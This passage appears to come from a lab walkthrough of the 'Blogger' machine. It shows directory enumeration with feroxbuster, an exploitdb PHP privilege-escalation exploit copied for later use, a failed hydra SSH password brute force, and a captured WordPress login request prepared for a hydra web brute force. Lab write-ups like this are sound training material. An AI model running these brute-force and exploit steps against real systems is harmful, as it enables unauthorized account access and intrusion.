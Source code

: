 ```
cp /usr/share/exploitdb/exploits/linux/local/46676.php exploit.php
head -20 exploit.php
```

This exploit works by uploading it to the server and then navigating to it as a web resource. We haven't gained any foothold yet, so privilege escalation can wait. Once we're in, we can try it.

Now that `gobuster` scan is done with no usable results, I will push this site through `feroxbuster` to hopefully check for something more:

```
feroxbuster -u http://$targ3t -w /usr/share/wordlists/seclists/Discovery/Web-Content/big.txt -o ferox.scan
```

An interesting URL `http://192.168.194.217/assets/fonts/blog/` came up. There are some blog posts on it on web security by a user named `j@m3s`. This makes me wonder if we can hack into this user's SSH under this username and a `rockyou.txt` wordlist:

```
hydra -t 4 -l j@m3s -P /usr/share/wordlists/rockyou.txt $targ3t ssh
```
```
[ERROR] target ssh://192.168.194.217:22/ does not support password authentication (method reply 4).
```

Let's think, where else could this username be used. There is a login form on the website's home page, let's see its POST request:

```
scheme:     http
host:       192.168.194.217
filename:   /
```

This POST request went through with no payload, so I don't think any of this is usable, the login form is indeed non-functional, I think. Now that I look at the blog web page again, I see there is a link to a `Log in` page on the bottom of the site. However it routes to `blogger.pg/assets/fonts/blog/wp-login.php`, which we can't reach. If we insert `$targ3t` instead of the domain `blogger.pg`, we will be able to open this page:

```
firefox $targ3t/assets/fonts/blog/wp-login.php
```

When I try to test the login form with test credentials, it seems to revert back to `blogger.pg` domain. I think we can resolve this temporarily with ease:

```
sudo echo -e "$targ3t\tblogger.pg" >> /etc/hosts
```

Now it all works! Let's try to login with test credentials and obtain a raw POST request payload:

```
log=test&pwd=test&wp-submit=Log+In&redirect_to=http%3A%2F%2Fblogger.pg%2Fassets%2Ffonts%2Fblog%2Fwp-admin%2F&testcookie=1
```

Now that we have this, we can craft a brute force command for `hydra` to try and check a possible password for user `j@m3s`.
